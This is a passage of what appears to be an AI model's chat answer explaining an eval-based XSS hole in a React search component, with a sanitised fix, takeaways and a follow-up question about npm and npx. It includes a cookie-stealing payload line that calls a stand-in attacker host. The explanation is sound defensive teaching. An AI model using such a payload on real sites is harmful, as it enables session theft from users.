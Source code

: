   return (
    <div>
      <h2>Search</h2>
      <input value={query} onChange={e => setQuery(e.target.value)} />
      <button onClick={handleSearch}>Search</button>
      <div>Result: {result}</div>
    </div>
  );
};

export default Search;
💥 Attack:
If a user enters this into the input box:

js
Copy
Edit
alert('XSS via eval!');
…then clicks the Search button, it will pop an alert. Worse, a malicious user could input:

js
Copy
Edit
fetch('https://attacker.site/steal?cookie=' + document.cookie)
…and your app would execute it — leaking all user cookies.

✅ Safe Version:
Never use eval() with user input. Instead, you should validate and sanitize all inputs and never interpret input as code.

For instance:

jsx
Copy
Edit
// Only use user input in safe contexts, like searching through data
const handleSearch = () => {
  const safeResult = someDataList.filter(item => item.includes(query));
  setResult(safeResult.join(', '));
}; 
🧠 Takeaway:
eval() + user input = instant RCE/XSS vulnerability

XSS can happen even without HTML if you misuse JavaScript.

Don’t evaluate or interpret user input unless absolutely necessary (and even then, validate and sandbox it).

## Want me to show an example where an attacker injects XSS via a URL (reflected XSS)?

# what is the difference between npm and npx?
